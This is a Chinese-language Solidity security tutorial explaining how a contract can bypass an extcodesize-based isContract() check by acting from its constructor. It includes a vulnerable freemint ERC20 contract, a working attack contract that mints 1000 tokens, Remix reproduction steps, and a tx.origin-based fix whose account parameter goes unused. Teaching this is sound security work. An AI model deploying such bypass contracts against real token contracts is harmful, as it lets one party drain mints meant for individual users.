 ```yaml
---
title: S08. 绕过合约检查
tags:
  - solidity
  - security
  - constructor
---
```


# WTF Solidity 合约安全: S08. 绕过合约长度检查

我最近在重新学 Solidity，巩固一下细节，也写一个“WTF Solidity 合约安全”，供小白们使用（编程大佬可以另找教程），每周更新 1-3 讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

这一讲，我们将介绍绕过合约长度检查，并介绍预防的方法。

## 绕过合约检查

很多 freemint 的项目为了限制科学家（程序员）会用到 `isContract()` 方法，希望将调用者 `msg.sender` 限制为外部账户（EOA），而非合约。这个函数利用 `extcodesize` 获取该地址所存储的 `bytecode` 长度（runtime），若大于0，则判断为合约，否则就是EOA（用户）。

```solidity
// 利用 extcodesize 检查是否为合约
function isContract(address account) public view returns (bool) {
    // extcodesize > 0 的地址一定是合约地址
    // 但是合约在构造函数时候 extcodesize 为0
    uint size;
    assembly {
        size := extcodesize(account)
    }
    return size > 0;
}
```

这里有一个漏洞，就是在合约在被创建的时候，`runtime bytecode` 还没有被存储到地址上，因此 `bytecode` 长度为0。也就是说，如果我们将逻辑写在合约的构造函数 `constructor` 中的话，就可以绕过 `isContract()` 检查。

![image1](./img/S08-1.png)

## 漏洞例子

下面我们来看一个例子：`ContractCheck`合约是一个 freemint ERC20 合约，铸造函数 `mint()` 中使用了 `isContract()` 函数来阻止合约地址的调用，防止科学家批量铸造。每次调用 `mint()` 可以铸造 100 枚代币。

```solidity
// 用extcodesize检查是否为合约地址
contract ContractCheck is ERC20 {
    // 构造函数：初始化代币名称和代号
    constructor() ERC20("", "") {}
    
    // 利用 extcodesize 检查是否为合约
    function isContract(address account) public view returns (bool) {
        // extcodesize > 0 的地址一定是合约地址
        // 但是合约在构造函数时候 extcodesize 为0
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint函数，只有非合约地址能调用（有漏洞）
    function mint() public {
        require(!isContract(msg.sender), "Contract not allowed!");
        _mint(msg.sender, 100);
    }
}
```

我们写一个攻击合约，在 `constructor` 中多次调用 `ContractCheck` 合约中的 `mint()` 函数，批量铸造 `1000` 枚代币：

```solidity
// 利用构造函数的特点攻击
contract NotContract {
    bool public isContract;
    address public contractCheck;

    // 当合约正在被创建时，extcodesize (代码长度) 为 0，因此不会被 isContract() 检测出。
    constructor(address addr) {
        contractCheck = addr;
        isContract = ContractCheck(addr).isContract(address(this));
        // This will work
        for(uint i; i < 10; i++){
            ContractCheck(addr).mint();
        }
    }

    // 合约创建好以后，extcodesize > 0，isContract() 可以检测
    function mint() external {
        ContractCheck(contractCheck).mint();
    }
}
```

如果我们之前讲的是正确的话，在构造函数调用 `mint()` 可以绕过 `isContract()` 的检查成功铸造代币，那么函数将成功部署，并且状态变量 `isContract` 会在构造函数赋值 `false`。而在合约部署之后，`runtime bytecode` 已经被存储在合约地址上了，`extcodesize > 0`， `isContract()` 能够成功阻止铸造，调用 `mint()` 函数将失败。

## `Remix` 复现

1. 部署 `ContractCheck` 合约。

2. 部署 `NotContract` 合约，参数为 `ContractCheck` 合约地址。

3. 调用 `ContractCheck` 合约的 `balanceOf` 查看 `NotContract` 合约的代币余额为 `1000`，攻击成功。

4. 调用`NotContract` 合约的 `mint()` 函数，由于此时合约已经部署完成，调用 `mint()` 函数将失败。

## 预防办法

你可以使用 `(tx.origin == msg.sender)` 来检测调用者是否为合约。如果调用者为 EOA，那么`tx.origin`和`msg.sender`相等；如果它们俩不相等，调用者为合约。

```solidity
function realContract(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```

## 总结

这一讲，我们介绍了合约长度检查可以被绕过的漏洞，并介绍预防的方法。如果一个地址的 `extcodesize > 0`，则该地址一定为合约；但如果 `extcodesize = 0`，该地址既可能为 `EOA`，也可能为正在创建状态的合约。

